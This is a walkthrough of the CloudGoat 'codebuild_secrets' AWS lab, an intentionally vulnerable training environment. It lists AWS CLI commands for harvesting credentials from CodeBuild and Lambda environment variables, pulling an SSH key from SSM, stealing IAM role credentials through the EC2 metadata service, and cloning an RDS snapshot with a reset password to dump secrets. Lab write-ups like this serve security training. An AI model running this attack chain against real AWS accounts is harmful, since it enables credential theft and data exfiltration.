







# Scenario 6 - CodeBuild Secrets

## What is the scenario

The scenario begins with security credentials of an IAM user - "Solo" 

The objective is to find a pair of secret strings stored in a secure RDS database.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/codebuild_secrets/README.md

## Setting up the scenario

        python3 cloudgoat.py create codebuild_secrets

## Walkthrough

There are multiple routes to completing this secenario. We'll cover them independently.

### Exploitation Route - 1

### Step by step instructions

In this scenario, we have credentials of an IAM User "Solo" to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Solo" security credentials.

IAM User "Solo" has some EC2, CodeBuild, RDS, S3 and SSM related permissions.

Let's go ahead with our enumeration using CodeBuild related permissions. We'll list all the CodeBuild projects that IAM user "Solo" has access to.

> [AWS CodeBuild](https://aws.amazon.com/codebuild/) is a fully managed continuous integration service that compiles source code, runs tests, and produces software packages that are ready to deploy. 

        aws codebuild list-projects --profile solo

There is one CloudBuild project. Let's retrieve more information realted to this build project.

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --profile solo

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --query "projects[*].environment" \
                --profile solo

While enumerating the build project details we can notice that the environment variables of the build project have some IAM security credentials that might possibly belong to an IAM User "Calrissian". To verify the credentials you can create an AWS CLI named profile with the security credentials and run `aws sts get-caller-identity` for that profile.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Calrissian" security credentials.

IAM User "Calrissian" has some EC2 and RDS related permissions.

Let's check if there are any RDS instances in the AWS account.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier, Engine , DBName]" \
        --output text \
        --profile calrissian

There is an RDS instance in the AWS account that is using "PostgreSQL" but it is not publicly accessible. This is our target RDS instance on which the secrets are stored in "securedb" database.

There are various ways to continue our exploitation but let's try to create a snapshot of the running RDS instance and then we will use to snapshot to create another RDS instance that we can control, from which we can extra the secrets.

Let's create a snapshot of the running RDS instance.

        aws rds create-db-snapshot \
        --db-snapshot-identifier secrets-snapshot \
        --db-instance-identifier cg-rds-instance-<CLOUDGOAT-ID> \
        --profile calrissian

Let's create an RDS instance from the snapshot. For us to be able to access the RDS Instance we create publicly, we need to place it in appropriate subnet and also security group.

1. Let's identify the subnet group of the already running RDS Instance. Note the subnet group name

        aws rds describe-db-subnet-groups \
        --query "DBSubnetGroups[?contains(DBSubnetGroupName,'rds')]" \
        --profile calrissian

2. Let's check if there is a security group that allows us to communicate with RDS service. Not the security group identifier

        aws ec2 describe-security-groups \
        --query "SecurityGroups[?contains(Description,'RDS')]" \
        --profile calrissian

Now we have the information required to create an RDS instance from the snapshot appropriately. Let's create an RDS instance from the snapshot.

        aws rds restore-db-instance-from-db-snapshot \
        --db-instance-identifier secrets-instance \
        --db-snapshot-identifier secrets-snapshot \
        --db-subnet-group-name <SUBNET_GROUP_NAME> \
        --publicly-accessible \
        --vpc-security-group-ids <SECURITY_GROUP_NAME> \
        --profile calrissian

Now that we have an RDS instance that we control, let's go ahead and reset the Master User Password for the database.

        aws rds modify-db-instance \
        --db-instance-identifier secrets-instance \
        --master-user-password cloudgoat \
        --profile calrissian

Let's retrieve the information about the new RDS instance we need in order to connect to the database and extract secrets.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier,Engine,DBName,Endpoint,MasterUsername]" \
        --profile calrissian

Now that we have all the information required to connect to the RDS instance, we can use any PostgreSQL client to connect to the database and extract the secrets, In this case, we are using `psql`, a command line PostgreSQL client - 

        sudo apt install postgresql-client
        psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

Once we are connected to the database, we can use commands to extract the secrets.

        \dt
        select * from sensitive_information;

### Exploitation Route - 2

### Step by step instructions

Let's use the IAM User "Solo" credentials and exploit the AWS account in a different way.

From the [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script results against the IAM User "Solo" credentials we have noticed that the user has `SSM:DescribeParameters` permission.

> The above enumeration step was tricky and time consuming for me because the [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script didn't check for `SSM:DescribeParameters` permission. Once I figured out the issue, I raised a [pull request](https://github.com/andresriancho/enumerate-iam/pull/11) against the tool

> AWS Systems Manager Parameter Store provides secure, hierarchical storage for configuration data management and secrets management. You can store data such as passwords, database strings, EC2 instance IDs, EC2 SSH Key Pairs and license codes as parameter values.

The `SSM:DescribeParameters` permission allows an IAM identity to list the parameters stored in AWS Systems Manager Parameter Store. By design, most of the parameters stored tend to be of sensitive nature.

Let's list all the parameters in the Parameter Store of the AWS account.

        aws ssm describe-parameters --profile solo

You can notice that the Parameter Store has an EC2 SSH Key Pair. This is worth investigating.

Let's go ahead and try to download the SSH private key - 

        aws ssm get-parameter \
        --name cg-ec2-private-key-cgidetofos97ig \
        --query "Parameter.Value" \
        --output text \
        --profile solo | tee private-key

We were able to download the SSH private key.

Let's check if there are any EC2 instances in the AWS acount that we can use this SSH Key Pair against.

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].[KeyName,PublicIpAddress,Tags]" \
        --output text \
        --profile solo

We are in luck because there is one EC2 instance that uses this SSH Key Pair. Let's SSH into the EC2 instance - 

        chmod 400 private-key 
        ssh -i private-key ubuntu@<PUBLIC_IP_OF_EC2_INSTANCE>

We were able to SSH into the SSH instance. There are two successuful ways to get to our objective of finding a pair of secret strings stored in a secure RDS database.

#### Route 2.1

Now that we have the access to EC2 instance, we can use the IMDS service to do further enumeration.

IMDS can be used to access user data that is specified when launching an EC2 instance. User Data tends to have sensitive information.

        curl http://169.254.169.254/latest/user-data

The User Data on the EC2 contains set of commands to connect to RDS instance from the EC2 instance. The command contains the credentials and endpoint for RDS Instance. The file also reveals the secret that is stored on the RDS instance.

#### Route 2.2

If you gain access to an EC2 instance then one of the most lucrative things to do is to steal IAM credentials using IMDS. It is a common practice to attach IAM roles to EC2 instances. Using this IAM roles the EC2 instance can interact with other AWS services in the AWS account. Any overly permissive IAM role can lead to privilege escalation.

Let's try and steal IAM Role credentials using IMDS.

        curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials

        curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-<CLOUDGOAT_ID>

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials` as `aws_session_token`.

        aws configure --profile stolen-creds

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

Notice that the IAM role has some Lambda related permissions. Let's list all the Lambda functions in the AWS account.

        aws lambda list-functions --profile stolen-creds 

One of the Lambda functions has RDS instance database credentials in the environmant variables.

Now that we have all the information required to connect to the target RDS instance, we can use any PostgreSQL client to connect to the database and extract the secrets, In this case, we are using `psql`, a command line PostgreSQL client - 

        sudo apt install postgresql-client
        psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

Once we are connected to the database, we can use commands to extract the secrets.

        \dt
        select * from sensitive_information;

## References 

- [AWS CodeBuild](https://aws.amazon.com/codebuild/)
- [AWS CLI - codebuild](https://docs.aws.amazon.com/cli/latest/reference/codebuild/index.html#cli-aws-codebuild)
- [AWS Systems Manager Parameter Store](https://docs.aws.amazon.com/systems-manager/latest/userguide/systems-manager-parameter-store.html)